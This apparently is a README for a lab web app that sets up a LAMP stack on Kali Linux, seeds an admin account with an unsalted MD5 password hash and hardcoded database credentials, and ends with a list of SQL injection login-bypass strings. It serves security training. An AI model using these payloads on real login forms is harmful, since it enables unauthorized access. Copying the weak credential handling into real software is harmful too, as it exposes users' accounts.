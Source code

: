 # Install Linux, Apache, MySQL, PHP  stack on Kali linux v20.4
  ## Step 1: Install Apache 
  ```sh 
   sudo apt-get update
   sudo apt-get install apache2
  ```
  ## Step 2: Install MySQL
  ```sh 
   $sudo apt update
   $sudo apt-get install mysql-server
   $sudo apt install mariadb-server
  ```
  ## Installing MariaDB
  ```sh 
   $sudo apt update
   $sudo apt install mariadb-server
  ```
 ## Download the Code :
 ```sh 
   git clone https://github.com/anir0y/verzeo-webapp 
  ```
  ## Copying the Downloaded folder
  ```sh
  /var/www/html/
  ```
  ## Starting the Services(Apache2,MySql)
  ```sh
  $sudo service apache2 start
  $sudo service mysql start
  ```
  ## Connecting the server with database
  ```sh
  $sudo mysql -u root
  ```
  > Creating a Table

```sh
     CREATE TABLE IF NOT EXISTS `users` (
     `id` int(11) NOT NULL AUTO_INCREMENT,
     `username` varchar(200) NOT NULL,
     `password` varchar(33) NOT NULL,
      PRIMARY KEY (`id`)
   )  ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```
> Inserting Values into the table
```sh
INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3');
```
## Creating User and granting permission
```sh
>create user 'user'@'localhost' identified by 'password';
>grant all privileges on 'table'.* to 'user'@'localhost' identified by 'password';
```
## Changing the Configuration file on dbconf
```sh
<?php
$con = new mysqli("127.0.0.1", "user", "password", "table");
if ($con -> connect_error){
    die("Database Not Congigured Properly");
}
else{
   // echo ("DB connection is established sir");
}
?>
```
## Next Steps
```sh
  Open any Web browser and try to connect the webserver <mark>127.0.0.1/database/index.php/</mark>
```   
# Steps to Bypass the Login Webpage
> Using sql injection trying different approached.
  * SQL Injection 101, Login tricks

     * admin' --
     * admin' #
     * admin'/*
     * ' or 1=1--
     * ' or 1=1#
     * ' or 1=1/*
     * ') or '1'='1--
     * ') or ('1'='1--
> ![Final](Capture1.png)



